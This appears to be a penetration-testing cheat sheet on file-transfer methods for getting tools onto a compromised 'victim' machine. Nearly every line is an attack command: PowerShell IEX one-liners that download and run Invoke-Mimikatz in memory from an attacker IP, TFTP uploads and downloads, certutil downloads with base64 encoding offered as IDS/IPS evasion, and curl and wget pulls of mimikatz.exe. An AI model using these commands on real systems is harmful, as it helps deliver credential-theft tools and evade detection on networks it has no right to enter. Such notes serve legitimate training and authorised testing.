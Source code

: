 # File-Transfert-Merthods

## Windows Methods

#### Powershell - Download in memory
```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.194:8000/Invoke-Mimikatz.ps1')
```

#### Powershell - Download in folder
Detected by Antivirus and SIEM tools such as Varonis
```
IEX (New-Object Net.WebClient).DownloadFile("http://192.168.119.194:8000/mimikatz.exe","C:\temp\mimikatz.exe")
```

#### TFTP 
On the old Windows version sur as Windows XP, Windows 2000

On kali linux
(/tftp is a specific folder where the fille have to be put before to be uploaded on the victim. The uploaded file from the victim will be put here also)
```
atftpd --daemon --port 69 /tftp
```
On Windows
```
// Upload
tftp -i http://192.168.119.194:8000/ put filename
// Download 
tftp -i http://192.168.119.194:8000/ get filename
```

#### Certutil
```
Basic transfert
certutil.exe -urlcache -split -f http://192.168.119.194:8000/mimikatz.exe output.file
```
Encoded transfert - Basic IPS/IDS evasion
```
certutil -encode mimikatz.exe mimikatz.txt
certutil.exe -urlcache -split -f "http://192.168.119.194:8000/mimikatz.txt" mimikatz.txt
certutil.exe -decode mimikatz.txt mimikatz.exe
```

## Linux Methods

#### Curl
```
curl http://192.168.119.194:8000/mimikatz.exe --output mimikatz.exe
```

#### Wget
```
wget -O mimikatz.exe http://192.168.119.194:8000/mimikatz.exe
```
